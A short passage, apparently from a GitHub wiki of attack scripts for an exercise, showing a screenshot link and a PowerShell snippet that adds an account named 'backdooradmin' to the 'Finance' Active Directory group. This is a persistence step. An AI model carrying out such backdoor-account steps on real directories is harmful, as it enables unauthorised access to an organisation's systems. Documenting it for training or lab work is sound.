 ![verify admin](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Andrei%20Chiper/images/img15.jpeg?raw=true)

Now using a powershell script saved as `.ps1`:

```powershell
# Add to Finance
Add-ADGroupMember -Identity "Finance" -Members "backdooradmin"
Get-ADGroupMember -Identity "Finance"
```
